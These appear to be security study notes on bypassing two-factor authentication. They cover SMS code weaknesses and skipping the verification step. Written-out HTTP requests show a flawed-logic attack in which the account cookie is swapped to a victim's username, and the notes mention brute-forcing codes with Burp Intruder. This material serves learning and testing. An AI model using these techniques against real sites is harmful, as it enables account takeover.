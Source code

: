 --- ---

<h2>Multi-Factor Authentication</h2>

Two-Factor Authentication Tokens
- Some websites send a verification code via a dedicated device or app (such as Google Authenticator)
- Other websites send a code via text message which is open to abuse
	Code is being transmitted via SMS rather than by the device itself
	Code can be intercepted via SIM swapping among other means

Bypassing Two-Factor Authentication
- Try to go to "logged in pages" without entering the code -- you might be able to bypass MFA completely Flawed Two-Factor Verification Logic

1. User logs in with normal creds
```
POST /login-steps/first
HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

2. User is assigned a cookie that relates to their account, before being taken to the second step of the login process
```
HTTP/1.1 200 OK
Set-Cookie: account=carlos
GET /login-steps/second
HTTP/1.1
Cookie: account=carlos
```

3. When submitting the verification code, the request uses this cookie to determine which account the user is trying to access
```
POST /login-steps/second
HTTP/1.1
Host: vulnerable-
website.com
Cookie: account=carlos
...
verification-code=123456
```

4. You can change the "account" cookie to any username when submitting the code
```
POST /login-steps/second
HTTP/1.1
Host: vulnerable-
website.com
Cookie: account=victim-user
...
verification-code=123456
```


Brute-forcing 2FA Verification Codes
- This can be automated by creating macros for Burp Intruder
- This can also be done with the Turbo Intruder extension